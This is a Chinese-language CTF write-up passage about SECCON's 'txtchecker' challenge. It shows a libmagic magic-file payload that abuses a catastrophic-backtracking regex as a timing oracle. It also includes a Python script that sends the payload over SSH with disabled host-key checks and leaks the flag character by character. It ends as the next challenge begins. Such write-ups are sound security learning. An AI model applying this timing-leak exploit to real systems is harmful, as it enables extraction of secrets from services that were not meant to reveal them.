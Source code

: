 然后就搜了搜 ReDoS，看不太懂（之后有时间补一补），但是感觉在这里都不太可用，然后四老师给了一个 `(.?){0, 1000}` 这个正则是可以卡住的。

再看 magic 的格式，对于一个文件类型可以有多次匹配，其层级通过 > 来表示。例如：
```magic
0 regex pattern1
>0x18 regex pattern2 type1
>0x18 regex pattern3 type2
>>0x...
```
其是一个类似树状的结构，前面的不成立的话，下一层就不会继续匹配。所以可以在第一层判断是否匹配 flag，在第二层通过前面的正则来卡住，这样匹配上的话时间就会拖慢，而每匹配上的就会较快一点。所以设计的 magic file payload 就是：
```magic
0 regex SECCON\\{%s(.)+\\} aaa
>0 regex (.?){0, 1000} a
```
然后写一个程序逐字符尝试，然后取时间最长的一个填入 flag 并继续，就可以一点一点 leak 出 flag。
???+ success "exp"
    ```python
    s = 'echo "/flag.txt -m /dev/stdin\n0 regex SECCON\\\\\\\\{%s(.)+\\\\\\\\} aaa\n>0 regex (.?){0,1000} a" | sshpass -p ctf ssh -oStrictHostKeyChecking=no -oCheckHostIP=no ctf@txtchecker.seccon.games -p 2022'

    import os, time, string
    import subprocess

    flag = ""

    for rd in range(10):
        res, best = None, None
        for i in "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-_$":
            print(i, end = " ")
            st = time.time()
            subprocess.run(s % (flag + i), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            t = time.time() - st
            print(t)
            if (res is None) or t > best:
                res = i
                best = t
        flag = flag + res
        print(f"SECCON{{{flag}")
    ```
    
找队友要了一个日本的延迟小的服务器，跑了一下，得到 flag: **SECCON{reDo5L1fe}**

---

## latexipy
![](https://img.shields.io/badge/-MISC-informational?style=flat-square)

??? question "题目主体代码"
    ```python
    import sys
    import ast
    import re
    import tempfile
    from importlib import util
